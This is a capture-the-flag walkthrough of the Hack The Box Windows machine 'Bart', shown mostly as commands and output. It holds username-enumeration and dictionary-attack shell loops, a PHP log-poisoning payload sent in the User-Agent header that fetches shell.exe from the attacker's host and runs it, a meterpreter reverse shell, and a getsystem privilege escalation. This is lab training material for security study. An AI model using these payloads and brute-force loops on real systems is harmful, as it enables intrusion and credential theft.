

# Target
| Category          | Details                                                              |
|-------------------|----------------------------------------------------------------------|
| 📝 **Name**       | [Bart](https://app.hackthebox.com/machines/Bart)                     |  
| 🏷 **Type**       | HTB Machine                                                          |
| 🖥 **OS**         | Windows                                                              |
| 🎯 **Difficulty** | Medium                                                               |
| 📁 **Tags**       | OSINT, Dictionary attack, Web enumeration, Log poisoning, Metasploit |

# Scan
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

# Attack path
1. [Gain initial foothold by exploiting RCE via log poisoning in internal chat application](#gain-initial-foothold-by-exploiting-rce-via-log-poisoning-in-internal-chat-application)
2. [Escalate to `Administrator` user using named pipe impersonation via Metasploit `getsystem`](#escalate-to-administrator-user-using-named-pipe-impersonation-via-metasploit-getsystem)

### Gain initial foothold by exploiting RCE via log poisoning in internal chat application

#### Add `bart.htb` and `forum.bart.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Bart]
└─$ echo "$TARGET bart.htb forum.bart.htb" | sudo tee -a /etc/hosts
10.129.51.120 bart.htb forum.bart.htb
```

#### Discover `monitor.bart.htb` virtual host
```
┌──(magicrc㉿perun)-[~/attack/HTB Bart]
└─$ ffuf -r -u http://bart.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.bart.htb" -mc 200 -fs 35529
<SNIP>>
monitor                 [Status: 200, Size: 3423, Words: 385, Lines: 81, Duration: 1106ms]
```

#### Add `monitor.bart.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Bart]
└─$ echo "$TARGET monitor.bart.htb" | sudo tee -a /etc/hosts
10.129.51.120 monitor.bart.htb
```

#### Gather information about employees from 'OUR TEAM' web page section
Harvey Potter bio is not rendered in web browser due to comment in HTML.
```
┌──(magicrc㉿perun)-[~/attack/HTB Bart]
└─$ curl -s http://forum.bart.htb | grep -oP '<div class="name">\K[^<]+' | grep -v '^\s*$' > employees.txt && cat employees.txt
Samantha Brown
Daniel Simmons
Robert Hilton
Harvey Potter
```

#### Prepare list of potential usernames based on list of employees
```
┌──(magicrc㉿perun)-[~/attack/HTB Bart]
└─$ ~/Tools/username-anarchy/username-anarchy --input-file employees.txt > usernames.txt
```

#### Use password recovery form to discover valid usernames
```
┌──(magicrc㉿perun)-[~/attack/HTB Bart]
└─$ echo -n "[*] Looking for valid usernames..."        
while read -r user_name; do \
    echo -n "\n[*] Checking: \e[1;37m$user_name\e[0m"
    csrf=$(curl -s -c cookies.txt http://monitor.bart.htb/index.php?action=forgot | grep -oP 'name="csrf" value="\K[^"]+') && \
    if ! curl -s -b cookies.txt http://monitor.bart.htb/index.php?action=forgot -d "csrf=$csrf&user_name=$user_name" | grep -q 'The provided username could not be found.'
    then
        echo -n "\r\033[K[*] \033[43;31mFound $user_name\033[0m"
    fi
done < usernames.txt
[*] Looking for valid usernames...
<SNIP>
[*] Found daniel
<SNIP>
[*] Found harvey
<SNIP>
```

#### Execute dictionary attack against user `harvey` using `rockyou.txt`
```
┌──(magicrc㉿perun)-[~/attack/HTB Bart]
└─$ user_name=harvey && \
echo -n "[*] Executing dictionary attack against user \e[1;37m$user_name\e[0m..."
while read -r user_password; do \
    echo -n "\n[*] Checking: [\e[1;37m$user_password\e[0m"]
    csrf=$(curl -s -c cookies.txt http://monitor.bart.htb/index.php | grep -oP 'name="csrf" value="\K[^"]+') && \
    if ! curl -s -b cookies.txt http://monitor.bart.htb/index.php -d "csrf=$csrf&user_name=$user_name&user_password=$user_password&action=login" | grep -q 'The information is incorrect'
    then
        echo -n "\r\033[K[*] \033[43;31mFound $user_password\033[0m"; break
    fi
done < /usr/share/wordlists/rockyou.txt      
[*] Executing dictionary attack against user harvey...
<SNIP>
[*] Checking: [miranda]
[*] Checking: [dallas]
[*] Checking: [hearts]
[*] Checking: [camille]
[*] Checking: [wilson]
[*] Found potter   
```

#### Use discovered credentials to access PHP Server Monitor and discover `internal-01.bart.htb` virtual host


#### Add `internal-01.bart.htb` to `/etc/hosts`
```
echo "$TARGET internal-01.bart.htb" | sudo tee -a /etc/hosts
10.129.51.120 monitor.bart.htb
```

#### Enumerate `http://internal-01.bart.htb/simple_chat/simple_chat` to discover `register.php`
```
┌──(magicrc㉿perun)-[~/attack/HTB Bart]
└─$ feroxbuster --url http://internal-01.bart.htb/simple_chat/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -d 1
<SNIP>
302      GET        0l        0w        0c http://internal-01.bart.htb/simple_chat/register.php => register_form.php
<SNIP>
```

#### Check POST parameters used in `login_form.php`
```
┌──(magicrc㉿perun)-[~/attack/HTB Bart]
└─$ curl http://internal-01.bart.htb/simple_chat/login_form.php
<SNIP>
<form action="login.php" method="POST">
                <input type="text" name="uname" id="uname" placeholder="Username">

                <input type="password" name="passwd" id="passwd" placeholder="Password">

        <input type="submit" name="submit" id="submit_login" value="Login">
</form>
<SNIP>
```

#### Reuse POST parameters in `register.php` to create new user
```
┌──(magicrc㉿perun)-[~/attack/HTB Bart]
└─$ curl -v http://internal-01.bart.htb/simple_chat/register.php -d 'uname=john&passwd=password123'
* Host internal-01.bart.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.51.120
*   Trying 10.129.51.120:80...
* Connected to internal-01.bart.htb (10.129.51.120) port 80
* using HTTP/1.x
> POST /simple_chat/register.php HTTP/1.1
> Host: internal-01.bart.htb
> User-Agent: curl/8.15.0
> Accept: */*
> Content-Length: 31
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 31 bytes
< HTTP/1.1 302 Found
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Content-Type: text/html; charset=UTF-8
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Location: ../
< Server: Microsoft-IIS/10.0
< X-Powered-By: PHP/7.1.7
< Set-Cookie: PHPSESSID=htbfvuidqvn05k62iufq5eseto; path=/
< Date: Fri, 21 Nov 2025 17:54:04 GMT
< Content-Length: 0
< 
* Connection #0 to host internal-01.bart.htb left intact
```

#### Access internal chat application using registered user
```
┌──(magicrc㉿perun)-[~/attack/HTB Bart]
└─$ curl -L -c cookies.txt http://internal-01.bart.htb/simple_chat/login.php -d 'uname=john&passwd=password123&submit=Login'
<SNIP>
<script>
        function saveChat() {
                // create a serialized object and send to log_chat.php. Once done hte XHR request, alert "Done"
        var xhr = new XMLHttpRequest();
        xhr.onreadystatechange = function() {
        if (xhr.readyState == XMLHttpRequest.DONE) {
                alert(xhr.responseText);
        }
        }
        xhr.open('GET', 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey', true);
        xhr.send(null);
        alert("Done");
        }
</script>
<SNIP>
```

#### Discover RCE via log poisoning in `log.php`
In `saveChat()` JavaScript function we can see `/log/log.php?filename=log.txt&username=harvey` endpoint. After calling it with `curl` it returns `1`. After changing `filename=log.txt` to `filename=log.php` and re-calling original one (`log.txt`) we can see that log  containing `User-Agent` has been added. 
```
┌──(magicrc㉿perun)-[~/attack/HTB Bart]
└─$ curl -b cookies.txt 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey'
1                                                                                                                                                                                                    
┌──(magicrc㉿perun)-[~/attack/HTB Bart]
└─$ curl -b cookies.txt 'http://internal-01.bart.htb/log/log.php?filename=log.php&username=harvey'
1                                                                                                                                                                                                    
┌──(magicrc㉿perun)-[~/attack/HTB Bart]
└─$ curl -b cookies.txt 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey'
1[2025-11-21 22:17:50] - harvey - curl/8.15.0 
```

#### Generate `windows/x64/meterpreter/reverse_tcp` reverse shell and host it over HTTP
```
┌──(magicrc㉿perun)-[~/attack/HTB Bart]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$LHOST LPORT=4444 -f exe -o shell.exe && python3 -m http.server 80
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7680 bytes
Saved as: shell.exe
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ... 
```

#### Start Metasploit and listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Bart]
└─$ msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 4444; set payload windows/x64/meterpreter/reverse_tcp; run"
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 4444
payload => windows/x64/meterpreter/reverse_tcp
[*] Started reverse TCP handler on 10.10.16.54:4444 
```

#### Poison logs with reverse shell spawning code
```
┌──(magicrc㉿perun)-[~/attack/HTB Bart]
└─$ curl -b cookies.txt 'http://internal-01.bart.htb/log/log.php?filename=log.php&username=harvey' -H "User-Agent: <?php file_put_contents('shell.exe', file_get_contents('http://$LHOST/shell.exe')); system('shell.exe'); ?>"
1[2025-11-21 22:17:50] - harvey - curl/8.15.0
```

#### Spawn reverse shell connection by calling poisoned log
```
┌──(magicrc㉿perun)-[~/attack/HTB Bart]
└─$ curl -b cookies.txt 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey'
```

#### Confirm foothold gained
```
┌──(magicrc㉿perun)-[~/attack/HTB Bart]
└─$ msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 4444; set payload windows/x64/meterpreter/reverse_tcp; run"
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 4444
payload => windows/x64/meterpreter/reverse_tcp
[*] Started reverse TCP handler on 10.10.16.54:4444 
[*] Sending stage (230982 bytes) to 10.129.96.185
[*] Meterpreter session 1 opened (10.10.16.54:4444 -> 10.129.96.185:50403) at 2025-11-21 20:36:45 +0100

meterpreter > getuid
Server username: NT AUTHORITY\IUSR
```

### Escalate to `Administrator` user using named pipe impersonation via Metasploit `getsystem`

#### Execute `getsystem`
```
meterpreter > getsystem 
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
